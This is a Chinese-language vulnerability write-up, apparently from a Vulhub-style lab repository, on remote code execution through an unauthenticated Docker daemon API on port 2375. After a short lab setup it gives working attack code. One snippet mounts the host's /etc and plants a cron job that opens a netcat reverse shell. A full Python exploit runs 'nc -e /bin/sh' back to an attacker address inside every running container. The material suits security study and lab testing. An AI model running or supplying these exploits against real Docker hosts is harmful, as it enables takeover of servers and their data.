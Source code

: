# Docker daemon api 未授权访问漏洞 RCE

## 漏洞描述

参考链接：

- [http://www.loner.fm/drops/#!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8](http://www.loner.fm/drops/#!/drops/1203.新姿势之Docker Remote API未授权访问漏洞分析和利用)

## 环境搭建

Vulhub编译及启动漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境启动后，将监听2375端口。

## 漏洞复现

利用方法是，随意启动一个容器，并将宿主机的`/etc`目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。

```
import docker

client = docker.DockerClient(base_url='http://[docker ip]:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc [your ip] 2333 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

监听2333端口，接收反弹shell。

此处的反弹shell需要和/etc/crontabs/root文件同时写入，不能后续追加。

![image-20220222182515581](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202221825647.png)

## 漏洞EXP

```python
from __future__ import print_function
import requests
import logging
import json
import urllib.parse

# NOTE
# Enable Remote API with the following command
# /usr/bin/dockerd -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
# This is an intended feature, remember to filter the port 2375..

name          = "docker"
description   = "Docker RCE via Open Docker API on port 2375"
author        = "Swissky"

# Step 1 - Extract id and name from each container
ip   = "127.0.0.1"
port = "2375"
data = "containers/json"
url  = "http://{}:{}/{}".format(ip, port, data)
r = requests.get(url)

if r.json:
    for container in r.json():
        container_id   = container['Id']
        container_name = container['Names'][0].replace('/','')
        print((container_id, container_name))

        # Step 2 - Prepare command
        cmd = '["nc", "192.168.1.2", "4242", "-e", "/bin/sh"]'
        data = "containers/{}/exec".format(container_name)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":'+cmd+' }'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))


        # Step 3 - Execute command
        id_cmd = r.json()['Id']
        data = "exec/{}/start".format(id_cmd)
        url = "http://{}:{}/{}".format(ip, port, data)
        post_json = '{ "Detach":false,"Tty":false}'
        post_header = {
            "Content-Type": "application/json"
        }
        r = requests.post(url, json=json.loads(post_json))
        print(r)
```

